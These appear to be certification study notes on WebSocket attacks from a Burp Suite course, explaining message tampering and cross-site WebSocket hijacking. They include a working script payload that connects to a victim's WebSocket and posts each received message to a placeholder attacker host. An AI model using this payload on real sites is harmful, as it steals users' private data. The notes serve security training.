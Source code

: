 ##### PortSwigger BurpSuite Certification Summary
# Websockets
Sometimes it is useful to alter the messages sent via web sockets. This can circumvent certain checks and enable even more control over the traffic.

Noteworthy is that the handshake to initiate a session uses a Sec-WebSocket-Key which is a Base64-encoded random string. When trying to reconnect to a session, this string should be altered!

## Cross-site WebSocket hijacking
If the conditions for CSRF are met and websockets are in use, it offers an additional attack surface. In contrast to traditional CSRF, websockets enable a two-way communication which makes it possible for the attacker to read along with everything that is sent. A payload looks like this:
```
<script>
    var ws = new WebSocket('wss://VICTIM-HOST/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ATTACKER-HOST', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
The response, in this case the chat history, can be fetched with and sent to an attacker controlled host, such as the collaborator.